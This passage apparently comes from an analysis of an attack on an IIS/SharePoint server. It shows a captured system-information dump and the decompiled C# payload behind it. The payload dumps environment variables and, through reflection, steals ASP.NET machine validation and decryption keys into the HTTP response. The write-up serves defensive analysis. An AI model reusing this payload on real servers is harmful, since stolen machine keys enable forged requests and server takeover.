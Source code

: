 ```http request
Computer Name: LEGITSPINSTALL
Full path of the system directory: C:\Windows\system32
Current Directory: c:\windows\system32\inetsrv
Number of processors on this machine: 8
Number of milliseconds since system start: 2323322323
Username of the user currently logged onto the operating system: USER
Operating System Version: Microsoft Windows NT 10.0.14393.0
.NET Version: 4.0.30319.42000

....
PublicKeyToken: 8B70AAA9C5DD715A40BAAC0F0AAF844504D353E21262D2A9BD8318EA9BF62E65|HMACSHA256|FCFBF7315C7B9F2C57EFBD5C115A3FBD2E0B0A665975E01E8823E446EC6F3C2A|Auto|Framework20SP1
```

Hang on, a single request to dump it all, that's new.

There's one thing we have enough brain for though, it's decoding base64 stuff,
and maybe decompile embedded code:

```csharp
using System;
using System.Collections;
using System.Reflection;
using System.Web;
using System.Web.Configuration;

#nullable disable
public class E
{
  public E()
  {
    try
    {
      HttpContext current = HttpContext.Current;
      if (current == null)
        return;
      current.Server.ClearError();
      current.Response.Clear();
      string s = "-------------------- .NET Properties --------------------\n" + $"Number of Logical Drives: {Environment.GetLogicalDrives().Length}\n" + $"List of Logical Drives: {string.Join(";", Environment.GetLogicalDrives())}\n" + $"Computer Name: {Environment.MachineName}\n" + $"Full path of the system directory: {Environment.SystemDirectory}\n" + $"Current Directory: {Environment.CurrentDirectory}\n" + $"Number of processors on this machine: {Environment.ProcessorCount}\n" + $"Number of milliseconds since system start: {Environment.TickCount}\n" + $"Username of the user currently logged onto the operating system: {Environment.UserName}\n" + $"Operating System Version: {Environment.OSVersion}\n" + $".NET Version: {Environment.Version}\n" + "\n-------------------- Environment Variables --------------------\n";
      foreach (DictionaryEntry environmentVariable in Environment.GetEnvironmentVariables())
        s += $"{environmentVariable.Key}:{environmentVariable.Value}\n";
      try
      {
        MachineKeySection machineKeySection = (MachineKeySection) Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a").GetType("System.Web.Configuration.MachineKeySection").GetMethod("GetApplicationConfig", BindingFlags.NonPublic | BindingFlags.Static).Invoke((object) null, new object[0]);
        s = $"{s}PublicKeyToken: {machineKeySection.ValidationKey}|{(object) machineKeySection.Validation}|{machineKeySection.DecryptionKey}|{machineKeySection.Decryption}|{(object) machineKeySection.CompatibilityMode}";
      }
      catch (Exception ex)
      {
      }
      current.Response.Write(s);
      current.Response.Flush();
```